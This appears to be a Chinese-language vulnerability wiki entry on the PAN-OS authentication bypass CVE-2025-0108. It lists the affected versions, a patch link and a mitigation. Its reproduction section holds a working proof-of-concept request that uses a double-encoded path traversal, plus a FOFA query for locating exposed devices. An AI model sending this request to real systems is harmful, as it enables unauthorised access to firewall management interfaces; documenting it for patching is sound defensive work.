

# Palo Alto Networks PAN-OS 身份验证绕过漏洞(CVE-2025-0108)

# 漏洞描述

该漏洞是由于PAN-OS中Nginx/Apache对路径的处理不同导致的。未经授权的攻击者可以利用这一漏洞绕过系统身份验证直接访问Web界面从而造成敏感数据泄露或系统被接管等更大的危害。

# 影响版本

PAN OS 11.2 < 11.2.4-h4

PAN OS 11.1 < 11.1.6-h1

PAN OS 10.2 < 10.2.13-h3

PAN OS 10.1 < 10.1.14-h9

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="873381299"

POC/EXP：

GET /unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1

# 漏洞修复

目前官方已发布安全更新，建议用户尽快升级至最新版本：

https://security.paloaltonetworks.com/CVE-2025-0108

缓解方案：

对管理 Web 界面的访问限制为仅受信任的内部 IP 地址。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
